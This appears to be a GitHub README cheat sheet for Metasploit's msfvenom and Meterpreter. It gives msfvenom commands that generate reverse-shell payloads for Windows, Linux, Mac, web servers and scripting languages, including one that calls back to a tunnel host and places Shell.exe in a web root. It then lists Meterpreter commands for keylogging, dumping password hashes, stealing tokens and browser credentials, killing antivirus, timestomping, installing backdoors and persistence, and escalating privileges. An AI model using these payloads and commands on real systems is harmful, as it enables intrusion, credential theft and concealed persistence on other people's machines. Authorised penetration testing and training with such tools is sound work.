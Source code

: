# Meterpreter-msfvenom
## 1.Msfvenom - generating shellcode
### Binaries
Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

```
Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

E.g 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=7229 -a x86 -f exe > /var/www/html/Shell.exe

OR

msfvenom -p windows/meterpreter/reverse_tcp -e x86/Hackeraj_Virus_Alert -i 5 -b '\x00' LHOST=Hackeraj-59554.portmap.io LPORT=59554 -f exe > /root/Desktop/Shell.exe
```
Mac:
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
OR
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
### Web Payloads

PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
JSP:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
WAR:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
### Script Payload
Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
Bash:
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
Perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
## 2.Meterpreter
Process:
```
getuid              hows user id
getpid              shows meterpreter process id
ps              ists running processes
migrate [ps]            migrates to given process (one that wont end/crash)
```
KeyLog: Ensure you are monitoring the correct session (Explorer.exe/WinLogin.exe)
```
idletime            shows how long machine has been idle for
keyscan_start           starts the key logger
keyscan_dump            outputs captured data
keyscan_stop            stops the keylogger
```
Channels: This allows you to do more than one thing at a time in meterpreter
```
execute -f cmd.exe -c       opens a new cmd.exe and creates a new channel for it
channel -l          lists the open channels
read [channel]          outputs data from channel
interact [channel]      allows you to jump into the channel
write [channel]         sends data to the channel
close [channel]         kills the channel
```
Session: Session0 is the local desktop. Session1+ are rdp sessions.
```
enumdesktops            shows currently open desktops such as winlogin etc
getdesktop          shows current desktop session meterpreter is in
setdesktop          changes to an already open desktop session
uictl disable keyboard      disables the keyboard of the desktop session
```
FileEdit: Ability to edit files atributes such as MACE
```
timestomp file.txt -c "30/12/1980 12:12:34" changes file stamp of file
timestomp file.txt -f sourcefile.txt        copys timestamp from sourcefile.txt
use priv            to load the priv extras
hashdump            to dump the SAM file :-)
```
Tokens: Incognito allows token stealing and other token functions
```
use incognito           loads the incognito into meterpreter
list_tokens -u          shows stealable tokens
impersonate_token       allows a token to be stolen
steal_token [psid]      allows ability to steal token of a process
rev2self            reverts to origional token
run post/windows/gather/cachedump   gets cached domain hashes
need to wget http://lab.mediaservice.net/code/cachedump.rb to framework3/modules/post/windows/gather
```
Sniffer: Allows promiscuos mode to be enabled ;-)
```
use sniffer         loads the sniffer functions
sniffer_interfaces      list interface 1,2,3,4,5,6,etc
sniffer_start [n]       starts the sniffer for the interface
sniffer_stats [n]       lists packets, time, etc..
sniffer_dump [n] file.pcap  dumps the capture locally
sniffer_stop            you guessed it ;-)
```
Meterpreter Scripts: These scripts perform various functions on the victim
```
run checkvm         checks if the target is a vm
run credscollect        dumps hashes and tokens to screen
run enum_firefox        dumps temp internet files from firefox - cookies, passwords, etc :-)
run get_application_list    shows installed applications
run killav          trys to stop all known AV progs
run get_local_subnets       enumerates local subnet info
run metsvc          creates a backdoor
run persistence         survices a reboot (without admin or system)
run schedulme -e file.exe -m 30 you'll need to man load the meterpreter.exe payload
run kitrap0d            allows priv escalation using CVE-2010-0232
```


